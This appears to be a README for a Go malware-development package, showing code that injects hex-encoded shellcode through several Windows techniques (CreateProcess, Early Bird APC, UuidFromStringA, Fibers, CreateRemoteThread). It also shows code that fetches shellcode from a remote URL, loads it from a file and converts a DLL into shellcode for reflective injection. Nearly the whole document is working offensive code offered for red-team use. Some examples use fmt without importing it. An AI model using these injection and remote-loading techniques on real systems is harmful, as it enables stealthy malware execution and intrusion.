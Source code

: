 # Shellcode Examples

- This package provides useful functions to help red teamers with shellcode injection

\* Have in mind that a lot of errors have not been handled in shellcode injection techniques because they usually throws false errors. However it should work as expected

## All Shellcode Injection Techniques

```go
package main

import (
  "log"
  "encoding/hex"

  "github.com/D3Ext/maldev/shellcode"
)

func main(){
  calc_shellcode, _ := hex.DecodeString("505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3")

  err := shellcode.CreateProcess(calc_shellcode)
  if err != nil {
    log.Fatal(err)
  }

  err = shellcode.EarlyBirdApc(calc_shellcode)
  if err != nil {
    log.Fatal(err)
  }

  err = shellcode.UuidFromStringA(calc_shellcode)
  if err != nil {
    log.Fatal(err)
  }

  err = shellcode.Fibers(calc_shellcode) // This technique doesn't exit until process ends
  if err != nil {
    log.Fatal(err)
  }

  err = shellcode.CreateRemoteThread(calc_shellcode) // This technique doesn't exit until process ends
  if err != nil {
    log.Fatal(err)
  }
}
```

## Get shellcode from file

```go
package main

import (
  "log"

  "github.com/D3Ext/maldev/shellcode"
)

func main(){
  shellcode_to_exec, err := shellcode.GetShellcodeFromFile("./shellcode.bin") // func GetShellcodeFromFile(filename string) []byte {}
  if err != nil {
    log.Fatal(err)
  }
  fmt.Println(shellcode_to_exec)
}
```

## Get shellcode from remote url

```go
package main

import (
  "log"

  "github.com/D3Ext/maldev/shellcode"
)

func main(){
  shellcode_to_exec, err := shellcode.GetShellcodeFromUrl("http://192.168.1.6/shellcode.bin") // func GetShellcodeFromUrl(url string) []byte {}
  if err != nil {
    log.Fatal(err)
  }
  fmt.Println(shellcode_to_exec)
}
```

## Convert DLL to shellcode

- This function is really useful to perform a ***sRDI*** **(shellcode Reflective DLL Injection)**. It autodetects between x86 and x64 architecture

```go
package main

import (
  "log"

  "github.com/D3Ext/maldev/shellcode"
)

func main(){
  err := shellcode.ConvertDllToShellcode("example.dll", "functionName", "") // func ConvertDllToShellcode(dll_file string, function_name string, args string) ([]byte, error) {}
  if err != nil {
    log.Fatal(err)
  }
}
```



